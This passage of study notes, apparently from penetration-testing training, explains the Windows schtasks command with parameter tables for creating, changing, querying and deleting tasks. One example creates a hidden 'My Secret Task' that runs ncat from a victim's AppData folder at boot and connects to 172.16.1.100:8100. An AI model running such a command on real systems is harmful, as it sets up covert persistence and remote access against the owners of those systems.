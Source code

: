 |            | /rl           | Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. Limited is the default value. |
|            | /z            | Will set the task to be deleted after completion of its actions.                                                              |
Creating a new scheduled task is pretty straightforward. At a minimum, we must specify the following:

- `/create` : to tell it what we are doing
- `/sc` : we must set a schedule
- `/tn` : we must set the name
- `/tr` : we must give it an action to take

Example
```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

|**Action**|**Parameter**|**Description**|
|---|---|---|
|`Change`||Allows for modifying existing scheduled tasks.|
||/tn|Designates the task to change|
||/tr|Modifies the program or action that the task runs.|
||/ENABLE|Change the state of the task to Enabled.|
||/DISABLE|Change the state of the task to Disabled.|
```cmd-session
# To see if the changes stuck
schtasks /query /tn "My Secret Task" /V /fo list 
```
* We can use the `/run` parameter to kick the task off immediately.

|**Action**|**Parameter**|**Description**|
|---|---|---|
|`Delete`||Remove a task from the schedule|
||/tn|Identifies the task to delete.|
||/s|Specifies the name or IP address to delete the task from.|
||/u|Specifies the user to run the task as.|
||/p|Specifies the password to run the task as.|
||/f|Stops the confirmation warning.|
`schtasks /delete  /tn "My Secret Task" `
